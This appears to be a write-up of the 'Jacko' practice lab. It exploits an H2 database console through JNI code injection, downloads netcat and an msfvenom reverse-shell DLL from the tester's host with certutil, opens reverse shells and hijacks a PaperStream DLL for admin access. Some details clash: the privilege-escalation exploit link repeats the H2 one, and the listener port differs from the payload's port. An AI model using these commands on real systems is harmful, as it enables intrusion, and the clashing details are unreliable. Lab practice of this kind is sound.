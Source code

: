 # Jacko

## Summary

* A vulnerable version of H2 Database was hosted on the machine vulnerable to JNI Code Execution.
* Leveraged code injection to get a reverse shell on the box
* Using winPEAS, found DLL hijack vulnerability resulting in priv escalation in PaperStream service.
* Leraved this vulnerability to gain elevated shell on the box.

## Let's Unpack

### Enumeration

```bash
sudo nmap -sC -sN -A -oN nmapFull -p- -A 192.168.216.66
>

Nmap scan report for 192.168.216.66
Host is up (0.088s latency).

PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: H2 Database Engine (redirect)
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5040/tcp  open  unknown
8082/tcp  open  http          H2 database http console
|_http-title: H2 Console
9092/tcp  open  XmlIpcRegSvc?
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
```

An older version of H2 database was hosted on port 8082, which was vulnerable to JNI code injection.

### Initial Foothold

We can use the following exploit to get a reverse shell in the box.

{% embed url="https://www.exploit-db.com/exploits/49384" %}

```bash
# Write native library, copy from above link

# Load native library
CREATE ALIAS IF NOT EXISTS System_load FOR "java.lang.System.load";
CALL System_load('C:\Windows\Temp\JNIScriptEngine.dll');

# Execute Code Injection
CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("whoami").getInputStream()).useDelimiter("\\Z").next()');

# upload netcat
certutil -urlcache -f http://192.168.45.177:8000/nc64.exe C:/windows/Temp/nc64.exe

# Replace following payload with whoami to get a reverse shell
C:/windows/Temp/nc64.exe 192.168.45.177 4444 -e cmd

# Catch the reverse shell
nc -nlvp 4444

# Got first flag!
            
```

<details>

<summary>Got stuck here <span data-gb-custom-inline data-tag="emoji" data-code="1f625">😥</span></summary>

I was unable to upload the nc.exe on the same directory, on looking to the walkthrough, I understood that if payload cannot be saved in the same directory, then always save in C:\windows\Temp\nc.exe! Silly mistake I know :sweat\_smile:

</details>

### Privilege escalation

None of the cmd commands, like Whoami, systeminfo, etc., were usable. So, the cmd prompt was fixed by running the following command.

```powershell
# We must fix our PATH variable to execute some common commands.
set PATH=%SystemRoot%\system32;%SystemRoot%;
```

Using winPEAS, we found a vulnerable version of PaperStream installed in the system that can be used to gain elevated privileges using a DLL hijacking attack.

Exploit used -> [https://www.exploit-db.com/exploits/49384](https://www.exploit-db.com/exploits/49384)

```powershell
# created a malicious DLL using msfvenom
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.177 LPORT=9999 -f dll > exploit.dll

# uploaded the DLL to the windows /temp directory
certutil -urlcache -f http://192.168.45.177:8000/exploit.dll C:/temp/exploit.dll

# uploaded the ps1 payload into the same directory
certutil -urlcache -f http://192.168.45.177:8000/exploit.ps1 C:/temp/exploit.ps1

# Executing the exploit
C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe -ep bypass 
C:\temp\exploit.ps1

# started a nc listener to catch the reverse shell with room priv
nc -nlvp 7777


# BOOM! Got the admin priv
```



















